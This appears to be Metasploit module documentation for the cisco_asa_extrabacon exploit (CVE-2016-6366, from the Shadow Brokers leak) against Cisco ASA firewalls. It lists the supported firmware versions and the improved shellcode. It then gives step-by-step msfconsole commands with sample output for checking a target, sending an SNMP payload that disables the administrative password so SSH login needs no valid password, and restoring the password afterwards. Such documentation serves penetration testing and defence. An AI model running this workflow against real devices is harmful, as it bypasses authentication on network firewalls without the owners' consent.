 ## General notes

This is using improved shellcode, has less stages than the Equation Group
version making it more reliable. This makes the SNMP payload packet ~150 less
bytes. Also, the leaked version only supports 8.x, we have it working on 9.x
versions.

To add more version specific offsets, more details and a Lina file offset
finder are available at:

https://github.com/RiskSense-Ops/CVE-2016-6366

## Partial list of supported versions
------------------------------------------------------------
All of the leaked versions are available in the module

- 8.x
- 8.0(2)
- 8.0(3)
- 8.0(3)6
- 8.0(4)
- 8.0(4)32
- 8.0(5)
- 8.2(1)
- 8.2(2)
- 8.2(3)
- 8.2(4)
- 8.2(5)
- 8.2(5)33 `*`
- 8.2(5)41 `*`
- 8.3(1)
- 8.3(2)
- 8.3(2)39 `*`
- 8.3(2)40 `*`
- 8.3(2)-npe `*` `**`
- 8.4(1)
- 8.4(2)
- 8.4(3)
- 8.4(4)
- 8.4(4)1 `*`
- 8.4(4)3 `*`
- 8.4(4)5 `*`
- 8.4(4)9 `*`
- 8.4(6)5 `*`
- 8.4(7) `*`
- 9.x
- 9.0(1) `*`
- 9.1(1)4 `*`
- 9.2(1) `*`
- 9.2(2)8 `*`
- 9.2(3) `*`
- 9.2(4) `*`
- 9.2(4)13 `*`

`*` new version support not part of the original Shadow Brokers leak

`**` We currently can't distinguish between normal and NPE versions from the SNMP strings. We've commented out the NPE offsets, as NPE is very rare (it is for exporting to places where encryption is crappy), but in the future, we'd like to incorporate these versions. Perhaps as a bool option?

## Verification Steps

- Start `msfconsole`
- `use auxiliary/admin/cisco/cisco_asa_extrabacon`
- `set RHOST x.x.x.x`
- `check`
- `run`
- ssh admin@x.x.x.x, you will not need a valid password
- `set MODE pass-enable`
- `run`
- ssh admin@x.x.x.x, ensure fake password does not work

## Checking for a vulnerable version

```
msf > use auxiliary/admin/cisco/cisco_asa_extrabacon
msf auxiliary(cisco_asa_extrabacon) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf auxiliary(cisco_asa_extrabacon) > check

[+] Payload for Cisco ASA version 8.2(1) available!
[*] 192.168.1.1:161 The target appears to be vulnerable.
```

## Disabling administrative password

```
  msf auxiliary(cisco_asa_extrabacon) > set
set ACTION            set ConsoleLogging    set Prompt            set RHOST             set TimestampOutput
set CHOST             set LogLevel          set PromptChar        set RPORT             set VERBOSE
set COMMUNITY         set MODE              set PromptTimeFormat  set SessionLogging    set VERSION
set CPORT             set MinimumRank       set RETRIES           set TIMEOUT           set WORKSPACE
msf auxiliary(cisco_asa_extrabacon) > set MODE pass-
  set MODE pass-disable  set MODE pass-enable
msf auxiliary(cisco_asa_extrabacon) > set MODE pass-disable
MODE => pass-disable
msf auxiliary(cisco_asa_extrabacon) > run

[*] Building pass-disable payload for version 8.2(1)...
  [*] Sending SNMP payload...
  [+] Clean return detected!
[!] Don't forget to run pass-enable after logging in!
[*] Auxiliary module execution completed
```

## Re-enabling administrative password

```
msf auxiliary(cisco_asa_extrabacon) > set MODE pass-enable
MODE => pass-enable
msf auxiliary(cisco_asa_extrabacon) > run

[*] Building pass-enable payload for version 8.2(1)...
  [*] Sending SNMP payload...
  [+] Clean return detected!
[*] Auxiliary module execution completed
```
